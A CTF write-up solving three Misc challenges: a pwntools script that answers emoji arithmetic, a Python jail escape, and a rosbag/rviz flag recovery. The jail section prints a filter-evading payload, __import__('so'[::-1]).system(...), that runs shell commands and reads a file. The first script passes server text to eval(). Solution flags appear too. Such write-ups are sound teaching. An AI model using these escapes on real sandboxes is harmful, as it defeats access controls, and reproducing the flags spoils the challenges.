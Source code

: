 # Misc

## Alien Camp

> Solved By : thewhiteh4t

* The challenge server sends a randomized set of emoji and value pair
* We can get all pairs from option 1
* After getting all pairs we can start calculating values for each question
* If you get EOF Error just restart the script
* After 500 questions we get the flag

```python
    #!/usr/bin/env python3
    
    from pwn import *
    
    host = '46.101.82.40'
    port = 32156
    conn = remote(host, port)
    conn.recvuntil('>').decode()
    print('[+] Getting some help...')
    conn.send('1\n')
    out = conn.recvuntil('\n>').decode()
    help_arr = out.split('\n')
    help_txt = help_arr[2]
    store = help_txt.split(' ')
    emojis = []
    vals = []
    new_store = {}
    counter = 0
    for item in store[0::3]:
        if len(item) > 0:
            emojis.append(item)
    for item in store [2::3]:
        vals.append(item)
    for emo in emojis:
        new_store[emo] = vals[emojis.index(emo)]
    if len(new_store) != 0:
        print('[+] Help recieved!')
    conn.send('2\n')
    def solve(conn):
        global counter
        if counter != 500:
            q_txt = conn.recvuntil('?').decode()
            q_txt = q_txt.split('\n')
            q_txt = q_txt[-1]
            print(f'[Q:{counter}] {q_txt}')
            q_txt = q_txt.split('  =')
            q_txt = q_txt[0]
            q_emo = q_txt.split(' ')
            for elem in q_emo:
                if elem in new_store:
                    q_txt = q_txt.replace(elem, new_store[elem])
            ans = eval(q_txt)
            print(f'[+] Sending {ans}')
            conn.send(str(ans) + '\n')
        else:
            flag = conn.recvuntil('}').decode()
            print(flag)
            conn.close()
        counter += 1
    while counter <= 500:
        solve(conn)
```

----------

## Input as a service

> Solved by : ava

* We are given a py-jail 
* https://programmer.help/blogs/python-sandbox-escape.html 
* I used this website as reference, `os` and such imports are banned, so we used string manipulation
* we just reverse the string `os` to `so` and import it and then do `ls` command to * * see the `flag.txt` and then just `cat` the flag
* the code to do is given below

```bash
# use this to check the files present

__import__('so'[::-1]).system('ls')

# this is called reverse print method, "so" actually os

flag.txt
input_as_a_service.py

# read the file

__import__('so'[::-1]).system('cat flag.txt')

CHTB{4li3n5_us3_pyth0n2.X?!}
```

----------

## Robotic Infiltration

> Solved by : thewhiteh4t

* We got a `capture.bag` file in this one
* The challenge mentions ROS which leads to a utility called `rosbag`
* rosbag can be used to play this bag file
* Installation and tutorials are given in ros wiki : http://wiki.ros.org/Documentation
* The challenge mentions `rebuild plan for facility`
* after some poking around we saw rosbag comes with another utility known as `rviz`
* rviz can be used for 3d visualization of bag files

**Step 1 : Start roscore**

![](https://i.imgur.com/ZsoFhr6.png)

**Step 2 : Play bag file**

```bash
$ rosbag play capture.bag
```

**Step 3 : Launch rviz**

```bash
$ rosrun rviz rviz
```

* Now all we had to do was tweak things in rviz a little to improve visibility and eventually we spotted the flag

![](https://i.imgur.com/CIeNKFz.png)

* After some play and pause action we got the full flag

```
CHTB{r0s_1s_r0b0tic_p0w3r}
```

![](robotic.gif)